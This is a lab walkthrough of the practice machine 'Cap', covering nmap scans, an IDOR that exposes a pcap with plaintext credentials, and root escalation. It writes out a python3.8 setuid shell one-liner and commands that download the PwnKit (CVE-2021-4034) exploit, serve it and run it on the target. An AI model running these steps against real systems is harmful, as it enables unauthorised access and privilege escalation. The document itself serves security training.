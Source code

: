 ```yaml
---
title: Cap
published: true
layout: post
---
```


<br />

---------------
Cap is an easy difficulty Linux machine running an HTTP server that performs administrative functions including performing network captures. Improper controls result in Insecure Direct Object Reference (IDOR) giving access to another user's capture. The capture contains plaintext credentials and can be used to gain foothold. A Linux capability is then leveraged to escalate to root.

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**
2. Scan for **services** in these open ports
3. Scan for **vulnerabilities** in these services

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS -sU 10.10.10.245 -p- -T4 --min-rate 5000 -oG all_ports.txt --open -n -Pn
```

![All Ports](/assets/Cap/1.png)
<br />
<br />
<br />

There are **3 open ports**:
+ **21/tcp**
+ **22/tcp**
+ **80/tcp**

<br />
Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.10.245 -p 21,22,80 -T4 --min-rate 5000 -oX open_ports.xml -oN open_ports.txt --version-all -n -Pn -A -v
```

![Services](/assets/Cap/2.png)
<br />
<br />
<br />

We can see that the services correspond to:
+ **21/tcp vsftpd 3.0.3**
+ **22/tcp OpenSSH 8.2p1**
+ **80/tcp gunicorn**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.10.245 -p 21,22,80 -T4 --min-rate 5000 --script="vuln and safe or intrusive and safe or discovery" -oN vulns.txt -oX vulns.xml -n -Pn -v
```

![Vulnerabilities](/assets/Cap/3.png)
<br />
<br />
<br />

We only detect a **DoS vulnerability** for the **http service**, which is not useful.

<br />

------

<br />
### Foothold

This machine's foothold was too much **CTF-like** for my taste. After investigating for possible vulnerabilities related to the services and its versions, I visited the website, where we are logged in as Nathan.

![Dashboard](/assets/Cap/4.png)
<br />
<br />
<br />

Enumerating the website, we discover **4 pages**:
- **/data**
- **/ip**
- **/netstat**
- **/capture**

<br />

We are interested in the ***/data* and */capture* pages**, these pages interact among them in a particular way. When you click on the menu option ***Security Snapshot (5 Second PCAP + Analysis)***, we are actually going to the */capture* page, this page launch a ``tcpdump`` command for 5 seconds and then redirects us to the */data* page, where we can download a **pcap file** with this data.

<br />

However, this is not exactly what we are interested in. When redirected to the data page, we can see a **number in the URL identifying the capture file**.

![Menu](/assets/Cap/5.png)
<br />
<br />
<br />

The first capture we do starts by number 1, however, we can **modify the URL** to access the **capture 0**, confirming and **IDORs vulnerability**.

![IDOR](/assets/Cap/6.png)
<br />
<br />
<br />

This pcap file contains what we are looking for:

![PCAP](/assets/Cap/7.png)
<br />
<br />
<br />

With the **credentials for the user nathan**, which works for both **ssh and ftp**, we have obtained a foothold in the target machine.

![SSH Connection](/assets/Cap/8.png)
<br />
<br />
<br />

--------------

<br />

### Privilege Escalation

For this machine, I discovered **two ways to escalate privileges**, the conventional one and an alternative one.

<br />
#### Conventional Privilege Escalation

The conventional privilege escalation method works through **capabilities**:

```bash
getcap -r / 2>/dev/null
```

![Capabilities](/assets/Cap/9.png)
<br />
<br />
<br />

The ***python3.8* binary** has the ***cap_setuid* capability** assigned to it, which allows us to **change the UID of a process**. For the privilege escalation we only have to **spawn a shell with an UID of 0**.

```bash
python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

![Capabilities Privesc](/assets/Cap/10.png)
<br />
<br />
<br />

#### Alternative Privilege Escalation

The alternative privilege escalation method works through **CVE-2021-4034**, which is based on giving **SUID permission to an old version of the pkexec binary**:

```bash
find / -perm -4000 -ls 2>/dev/null
```

![SUID](/assets/Cap/11.png)
<br />
<br />
<br />

To exploit this vulnerability I used the [PwnKit](https://github.com/ly4k/PwnKit){:target="_blank" created by **ly4k**, we just have to download it in our machine:

```bash
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
sudo python3 -m http.server 80
```
<br />

And then **transfer it to the target machine and run it**:

```bash
wget http://10.10.16.5/PwnKit
chmod +x PwnKit
./PwnKit
```

![SUID Privesc](/assets/Cap/12.png)
<br />
<br />
<br />
